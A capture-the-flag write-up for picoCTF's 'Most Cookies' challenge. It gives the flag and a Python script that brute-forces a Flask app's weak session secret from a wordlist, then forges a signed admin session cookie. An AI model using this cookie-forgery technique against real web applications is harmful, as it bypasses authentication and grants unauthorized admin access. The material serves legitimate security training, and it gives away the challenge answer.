


# Most Cookies

**Flag:** `picoCTF{pwn_4ll_th3_cook1E5_478da04c}`

- **step 1**

    Identifying the secret key using the `itsdangerous` module and then using that to encode the cookie `very_auth=admin`.

    ```python
    from flask.sessions import SecureCookieSessionInterface
    from itsdangerous import URLSafeTimedSerializer
    from itsdangerous.exc import BadTimeSignature

    class SimpleSecureCookieSessionInterface(SecureCookieSessionInterface):
        def get_signing_serializer(self, secret_key):
            if not secret_key:
                return None
            signer_kwargs = dict(
                key_derivation=self.key_derivation,
                digest_method=self.digest_method
            )
            return URLSafeTimedSerializer(secret_key, salt=self.salt,
                                        serializer=self.serializer,
                                        signer_kwargs=signer_kwargs)

    def decodeFlaskCookie(secret_key, cookieValue):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.loads(cookieValue)

    def encodeFlaskCookie(secret_key, cookieDict):
        sscsi = SimpleSecureCookieSessionInterface()
        signingSerializer = sscsi.get_signing_serializer(secret_key)
        return signingSerializer.dumps(cookieDict)

    cookies = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]

    d = {u"very_auth":"admin"}

    str = "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZzG9hg.PRhHYIDFQdt8ijTHkNY-aodVQHE"

    for cookie in cookies:
        try:
            decodeFlaskCookie(cookie,str)
        except BadTimeSignature:
            continue
        sk = cookie
        print(sk)

    encoded = encodeFlaskCookie(sk,d)

    print(encoded)
    ```
- **step 2**

    The new encoded cookie can be pasted in place of the existing value.

    

    Refreshing the site gives the flag.

    

**References**

- https://gist.github.com/aescalana/7e0bc39b95baa334074707f73bc64bfe